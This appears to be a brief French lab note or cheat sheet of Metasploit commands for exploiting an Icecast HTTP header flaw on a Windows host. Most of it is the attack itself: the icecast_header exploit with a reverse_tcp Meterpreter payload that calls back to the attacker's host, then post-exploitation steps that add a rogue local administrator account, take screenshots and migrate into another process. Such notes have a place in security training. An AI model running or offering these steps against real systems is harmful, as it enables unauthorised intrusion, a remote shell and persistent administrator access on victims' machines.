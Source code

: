 # lab  

## run icecast en admin sur le windows


	smfconsole  
	search icecast  
	use exploit/windows/http/icecast_header  
	set payload windows/meterpreter/reverse_tcp  
	set rhost  
	set lhost  
	
	sysinfo  
	getuid  
	ps  
	
	shell
	net user <user> passwors /add
	net localgroup administrators <user> /add
	# voir : net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
